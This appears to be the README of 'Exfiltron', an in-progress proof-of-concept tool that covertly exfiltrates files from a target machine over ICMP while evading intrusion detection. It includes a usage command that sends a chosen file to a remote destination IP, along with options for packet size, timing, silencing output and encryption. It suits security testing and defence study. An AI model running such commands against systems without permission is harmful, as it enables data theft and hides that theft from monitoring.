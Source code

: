 # Exfiltron
Data Exfiltration Framework 

!!!! Please be aware that is project is in progress and may have parts missing
!!!!

## What does it do?
This framework is meant as a proof of concept for exfiltrating data 
from a target computer. YOU SHOULD NOT USE THIS ON ANYTHING YOU DO 
NOT OWN OR HAVE EXPLICIT PERMISSION TO USE IT ON. Exfiltron is meant to 
evade IDS in order to get data back to you.

## Things you must have before extraction time
* You must have [python2.7+](https://www.python.org) installed on both the
server and the client side
* You must have [scapy](http://www.secdev.org/projects/scapy) 
([download](http://scapy.net)) installed on both the server and the client side
    * If you wish to encrypt your file before sending it out, make sure you have
the [cryptography](https://cryptography.io/en/latest) python package which
should be installed when you install scapy

## Sounds great! How do I try it out?
First, get it on your local machine. There are two major files: the client
file (exfiltron.py) and the server file. The client file must be placed on
a target machine along with any modules you wish to use for your extraction
method. SET UP THE SERVER SIDE INFORMATION HERE. After exfiltron.py has
been placed on the target machine, run the following command on the target:

`python exfiltron.py exfiltrationMethod -f filename -d destinationIP [-aehiqt]`

* -h is help
* -a (--data-per-packet) is the amount of data you want to fit into each packet.
The default is the number of bytes that normally sit in that packet while the
min amount is 1 byte and the max amount is the MTU minus the headers and trailers
on the packet. The amount should be specified after the option (ex. -a 64)
* -t (--time) specifies the amount of time to wait between after sending a packet
before sending another packet. This numerical value should be given in terms of
seconds. If no value is explicitly set, exfiltron defaults the value to 5 seconds
* -q (--quiet) By default, a progress bar is shown displaying
numPacketsSent/numTotalPacketsToSend. This option silences any output relating
to the progress bar
* -e (--encrypt) Setting this flag will result in your data being encrypted 
with AES-256 using CTR mode. Please note that this should only be used if the
attacker executes exfiltron.py through a secure channel
* -i (--integrity-check) Using a hashing algorithm that is picked by the user,
Exfiltron hashes the chosen file and sends, as the first packet, the resulting
hash. After receiving all of the files, the attacker's side then pieces the
files back together and runs the same hash again and compares the two (NOT YET
IMPLEMENTED)

## Methods of Exfiltration
Currently, the following methods of exfiltration are available/in progress:
* ICMP

#### Original Authors
* Adam Sowden
* Andrew Steiner
* Thomas Daniels
